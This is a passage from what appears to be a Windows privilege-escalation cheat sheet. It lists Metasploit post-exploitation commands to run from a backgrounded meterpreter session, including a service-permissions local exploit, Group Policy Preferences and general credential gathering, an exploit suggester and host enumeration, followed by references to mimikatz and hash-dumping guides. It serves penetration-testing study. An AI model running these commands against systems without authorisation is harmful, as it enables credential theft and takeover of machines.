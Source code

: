 ## Post modules

Some interesting metasploit post-modules

First you need to background the meterpreter shell and then you just run the post modules.  
You can also try some different post modules.

```
use exploit/windows/local/service_permissions

post/windows/gather/credentials/gpp

run post/windows/gather/credential_collector

run post/multi/recon/local_exploit_suggester

run post/windows/gather/enum_shares

run post/windows/gather/enum_snmp

run post/windows/gather/enum_applications

run post/windows/gather/enum_logged_on_users

run post/windows/gather/checkvm
```

## References

[windows privilege escalation via weak service permissions](http://travisaltman.com/windows-privilege-escalation-via-weak-service-permissions/)  
[fuzzysecurity](http://www.fuzzysecurity.com/tutorials/16.html)  
[metasploit-unleashed/privilege-escalation](https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/)  
[it-ovid.blogspot.cl/windows-privilege-escalation](http://it-ovid.blogspot.cl/2012/02/windows-privilege-escalation.html)  
[mimikatz](https://github.com/gentilkiwi/mimikatz)  
[dump-windows-password-hashes](http://bernardodamele.blogspot.cl/2011/12/dump-windows-password-hashes.html)  
[Encyclopaedia Of Windows Privilege Escalation - Brett Moore](https://www.youtube.com/watch?v=kMG8IsCohHA&feature=youtu.be)  
[Level Up! Practical Windows Privilege Escalation - Andrew Smith](https://www.youtube.com/watch?v=PC_iMqiuIRQ)  
[powerup-a-usage-guide](http://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/)  
[PowerShellEmpire/PowerTools/tree/master/PowerUp](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp)  
[pwnwiki-privesc/windows/index.md](http://pwnwiki.io/#!privesc/windows/index.md)



## UNSORTED:
